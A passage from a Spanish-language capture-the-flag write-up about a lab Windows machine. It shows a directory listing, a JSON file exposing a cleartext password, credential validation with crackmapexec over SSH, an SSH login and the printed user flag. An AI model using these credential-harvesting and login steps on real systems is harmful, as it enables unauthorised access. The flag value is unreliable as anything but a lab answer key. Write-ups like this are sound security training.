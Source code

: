 ```null
               8 File(s)         20,836 bytes
               9 Dir(s)   6,542,012,416 bytes free
```

Si listo lo que hay dentro de él, veo un archivo en JSON

```null
Directory of C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData

02/08/2021  05:37 AM    <DIR>          .
02/08/2021  05:37 AM    <DIR>          ..
11/28/2020  01:48 AM               170 alex.disabled
11/28/2020  01:48 AM               170 emma.disabled
11/28/2020  01:48 AM               170 jack.disabled
11/28/2020  01:48 AM               170 john.disabled
01/17/2021  03:11 PM               192 juliette.json
11/28/2020  01:48 AM               170 lucas.disabled
11/28/2020  01:48 AM               170 olivia.disabled
11/28/2020  01:48 AM               170 paul.disabled
11/28/2020  01:48 AM               170 sirine.disabled
11/28/2020  01:48 AM               170 william.disabled
              10 File(s)          1,722 bytes
               2 Dir(s)   6,541,996,032 bytes free
```

Al abrirlo, se pueden ver contraseñas en texto claro

```nullon
{
	"pizza" : "margherita",
	"size" : "large",	
	"drink" : "water",
	"card" : "VISA",
	"PIN" : "9890",
	"alternate" : {
		"username" : "juliette",
		"password" : "jUli901./())!",
	}
}
```

Valido las credenciales por SSH

```null
crackmapexec ssh 10.10.10.228 -u 'juliette' -p 'jUli901./())!'
SSH         10.10.10.228    22     10.10.10.228     [*] SSH-2.0-OpenSSH_for_Windows_7.7
SSH         10.10.10.228    22     10.10.10.228     [+] juliette:jUli901./())! 
```

Gano acceso al sistema y puedo visualizar la primera flag

```null
ssh juliette@10.10.10.228
juliette@10.10.10.228's password: 

Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

juliette@BREADCRUMBS C:\Users\juliette>

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type user.txt
5100259cf3bf6a34b787280c3e086d8d
```
